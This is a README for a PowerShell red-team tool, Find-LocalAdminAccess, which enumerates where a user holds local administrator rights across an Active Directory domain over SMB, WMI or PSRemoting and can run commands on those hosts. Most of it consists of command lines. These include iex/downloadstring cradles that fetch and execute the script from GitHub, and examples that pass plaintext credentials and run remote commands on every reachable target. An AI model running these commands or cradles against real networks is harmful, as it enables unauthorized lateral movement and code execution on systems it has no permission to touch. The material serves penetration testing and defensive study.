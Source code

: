 # Find-LocalAdminAccess
Check the Domain for local Admin Access via SMB, WMI, or PSRemoting.

## Light Version

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Find-LocalAdminAccess/main/Find-LocalAdminAccess_Light.ps1')
```
```
Find-LocalAdminAccess
```
```
Find-LocalAdminAccess -Domain ferrari.local -DomainController DC01.ferrari.local -Targets "Workstation01.ferrari.local,DC01.ferrari.local"
```
![image](https://github.com/Leo4j/Find-LocalAdminAccess/assets/61951374/3e0cfabe-694b-4361-82b1-9d3b322b0949)

## Full Version

Run as Current User, or provide credentials (WMI and PSRemoting only)

Optionally, provide a command to run on targets where you have Admin access

### Load script:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Find-LocalAdminAccess/main/Find-LocalAdminAccess.ps1')
```

### Usage (SMB):
```
Find-LocalAdminAccess -Method SMB
```
```
Find-LocalAdminAccess -Method SMB -Domain ferrari.local -DomainController DC01.ferrari.local
```
```
Find-LocalAdminAccess -Method SMB -Targets "Workstation01.ferrari.local,DC01.ferrari.local"
```
```
Find-LocalAdminAccess -Method SMB -Command "whoami /all" # Will run a command on targets where we are admin
```
```
Find-LocalAdminAccess -Method SMB -Command "whoami /all" -NoOutput # Will run a command on targets where we are admin and won't wait for output
```
```
Find-LocalAdminAccess -Method SMB -Targets "Workstation01.ferrari.local,DC01.ferrari.local" -Command "whoami /all"
```

### Usage (WMI):
```
Find-LocalAdminAccess -Method WMI
```
```
Find-LocalAdminAccess -Method WMI -Domain ferrari.local -DomainController DC01.ferrari.local
```
```
Find-LocalAdminAccess -Method WMI -Targets "Workstation01.ferrari.local,DC01.ferrari.local"
```
```
Find-LocalAdminAccess -Method WMI -UserName "ferrari\Administrator" -Password "P@ssw0rd!"
```
```
Find-LocalAdminAccess -Method WMI -Command "whoami /all" # Will run a command on targets where we are admin
```
```
Find-LocalAdminAccess -Method WMI -Command "whoami /all" -NoOutput # Will run a command on targets where we are admin and won't wait for output
```
```
Find-LocalAdminAccess -Method WMI -Targets "Workstation01.ferrari.local,DC01.ferrari.local" -UserName "ferrari\Administrator" -Password "P@ssw0rd!" -Command "whoami /all"
```

### Usage (PSRemoting):
```
Find-LocalAdminAccess -Method PSRemoting
```
```
Find-LocalAdminAccess -Method PSRemoting -Domain ferrari.local -DomainController DC01.ferrari.local
```
```
Find-LocalAdminAccess -Method PSRemoting -Targets c:\Users\Public\Documents\Targets.txt
```
```
Find-LocalAdminAccess -Method PSRemoting -UserName "ferrari\Administrator" -Password "P@ssw0rd!"
```
```
Find-LocalAdminAccess -Method PSRemoting -Command "whoami /all" # Will run a command on targets where we are admin
```
```
Find-LocalAdminAccess -Method PSRemoting -Command "whoami /all" -NoOutput # Will run a command on targets where we are admin and won't wait for output
```
```
Find-LocalAdminAccess -Method PSRemoting -Targets c:\Users\Public\Documents\Targets.txt -UserName "ferrari\Administrator" -Password "P@ssw0rd!" -Command "whoami /all"
```

![image](https://github.com/Leo4j/Find-LocalAdminAccess/assets/61951374/16e6e0f7-2d44-4ebf-985a-ad2b38d43e48)


![image](https://github.com/Leo4j/Find-LocalAdminAccess/assets/61951374/01b5076b-8615-4b16-8b6d-79f19010682d)
